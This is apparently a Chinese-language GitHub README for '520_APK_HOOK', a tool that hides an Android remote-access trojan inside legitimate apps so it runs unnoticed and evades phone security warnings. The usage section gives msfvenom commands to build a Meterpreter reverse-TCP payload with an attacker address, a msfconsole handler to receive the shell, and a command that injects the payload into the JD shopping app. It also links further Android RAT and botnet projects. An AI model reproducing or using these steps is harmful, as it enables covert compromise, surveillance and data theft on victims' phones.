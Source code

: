 # 520_APK_HOOK

## 介绍

* 将编写的安卓远控程序，注入到正常的App中，运行app时安卓远控程序也会上线。

* 修复上一版本的bug，使用java重写，同时还重写了520ApkBox程序，专门用来运行运行APP和远控App。

* 520ApkBox是一个java编写的App，主要作用是一个安卓虚拟机，任何App可以不用任何修改就可以正常运行，可以绕过现在各种App的安全检测。同时此App还是一个加载器，通过DexClassesLoder加载远控的Dex文件并启动上线。

* 520ApkHook是Java编写的注入工具，将被注入的App和远控App注入到一个App中。

* 项目地址:  [https://github.com/ba0gu0/520apkhook](https://github.com/ba0gu0/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于普通的安卓远控，此版本app在进行远控时，被注入的app可以正常运行。

* 注入后的app在安装时，手机管家不会有任何安全提示，普通的远控程序，安装时手机管家会有安全警示。

* 理论上来说，只要远控软件使用的是纯Java或者Kotlin编写，就可以使用，不一定必须是msf生成的apk。


## 使用

1. 下载Releases中打包好的jar包  

 * [a520ApkHook-1.0-jar-with-dependencies.jar](https://github.com/ba0gu0/520apkhook/releases/download/v2.0/a520ApkHook-1.0-jar-with-dependencies.jar)

2. msfmsfvenom

```shell

msfvenom -p android/meterpreter/reverse_tcp lhost=114.114.114.114 lport=3306 -o ~/Downloads/msf.apk

```
3. msfconsole

```shell
# 启动 msfconsole

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3306
set exitonsession false
exploit -j

```
4. 520ApkHook

```shell

java -jar a520ApkHook-1.0-jar-with-dependencies.jar  ~/Downloads/京东.apk ~/Downloads/msf.apk

```

5. BaoGuo仍给你一个Apk，请安装它!

### 搭配其他远控使用

* 一款安卓僵尸网络远控工具, 服务端是web网页,  基于[https://deta.space](https://deta.space) 搭建(匿名): 

  * [https://github.com/ScRiPt1337/Teardroid-phprat](https://github.com/ScRiPt1337/Teardroid-phprat)

* 一款安卓远控程序, 服务端是GUI程序: 

  * [https://github.com/AhMyth/AhMyth-Android-RAT](https://github.com/AhMyth/AhMyth-Android-RAT)

* 搜集的一些github上的安卓远控项目:

  *  [https://github.com/wishihab/Android-RATList](https://github.com/wishihab/Android-RATList)


## BUG

* 微信只能通过应用克隆的方式安装，需要先指定微信的apk包，生成520ApkHook.apk. 再使用np管理器把assets目录下的和微信大小一样的文件给删除掉。再使用np管理器重新进行签名即可.（这种方法要求目标机器上要已经安装微信.）

* 新生成的apk的包名字, 不能和被注入的apk包名字一样, 程序默认已经修改.

* msf无法在鸿蒙OS使用, 文件读取在鸿蒙OS上也无法正常使用.

* 其他未测试...

## 项目依赖

* 本项目参考以下项目

* 由于安卓虚拟化牵扯到其他github上被下架的程序，在这里不再进行列出，避免被影响。


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 由于此软件是基于安卓虚拟化来实现的，虚拟化软件对于不同版本的系统会出现BUG，可以自行修改520ApkBox项目源码 (欢迎大佬提交pull) .



## Start 曲线

[![Start 曲线](https://starchart.cc/ba0gu0/520apkhook.svg)](https://starchart.cc/ba0gu0/520apkhook)

